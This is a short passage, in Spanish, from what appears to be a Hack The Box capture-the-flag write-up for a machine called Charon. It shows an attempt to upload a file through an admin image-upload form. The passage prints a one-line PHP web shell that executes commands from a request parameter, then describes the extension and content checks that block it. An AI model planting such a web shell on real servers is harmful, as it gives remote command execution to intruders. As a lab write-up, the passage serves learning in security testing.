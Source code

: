 Estoy como Administrador

<img src="/writeups/assets/img/Charon-htb/21.png" alt="">

Puedo subir una imagen

image.png

Trato de subir una webshell

```null
<?php
  shell_exec($_REQUEST['cmd']);
?>
```

Pro me salta una alerta diciendo que la extensión no es válida

<img src="/writeups/assets/img/Charon-htb/23.png" alt="">

Al cambiársela, si que puedo intentar subirlo, pero sigue detectando que no es una imagen

<img src="/writeups/assets/img/Charon-htb/24.png" alt="">
